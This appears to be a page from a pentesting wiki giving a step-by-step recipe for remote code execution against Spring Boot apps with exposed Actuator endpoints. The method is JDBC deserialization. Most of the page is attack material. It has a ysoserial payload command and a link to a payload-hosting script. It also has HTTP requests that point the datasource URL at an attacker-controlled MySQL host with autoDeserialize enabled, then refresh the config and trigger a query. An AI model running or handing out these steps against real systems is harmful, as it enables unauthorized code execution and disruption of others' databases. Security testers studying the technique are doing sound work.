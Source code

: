{% hint style="info" %}
Changing `spring.datasource.url` will temporarily disable all normal database services
{% endhint %}

How to exploit:

1. Use the `/actuator/env` endpoint to fetch the next values:
    
    - `mysql-connector-java` version number (5.x or 8.x)
    - Common deserialization gadgets, such as `commons-collections`
    - `spring.datasource.url` value to facilitate later crafting of its normal JDBC URL

2. Create a payload with [ysoserial](https://github.com/frohoff/ysoserial):

    ```bash
    java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
    ```

3. Use [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) to host `payload.ser`
4. Set the `spring.datasource.url` property:

    `mysql-connector-java` version 5.x:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "spring.datasource.url",
        "value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"
    }
    ```

    `mysql-connector-java` version 8.x:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "spring.datasource.url",
        "value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"
    }
    ```

5. Refresh the configuration:

    ```http
    POST /actuator/refresh HTTP/1.1
    Content-Type: application/json
    ```

6. Try to access an endpoint that will trigger a database query, for example `/product/list`, or find other ways to query the database and trigger the vulnerability
